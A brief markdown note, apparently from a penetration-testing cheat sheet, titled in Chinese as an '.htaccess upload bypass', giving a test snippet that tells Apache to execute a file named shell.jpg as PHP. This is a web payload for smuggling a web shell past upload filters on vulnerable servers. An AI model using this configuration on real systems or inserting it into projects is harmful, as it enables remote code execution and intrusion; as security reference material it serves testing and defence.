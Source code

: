 # .htaccess上传绕过

## 测试

```php
<FilesMatch "shell.jpg">
  SetHandler application/x-httpd-php
</FilesMatch>
```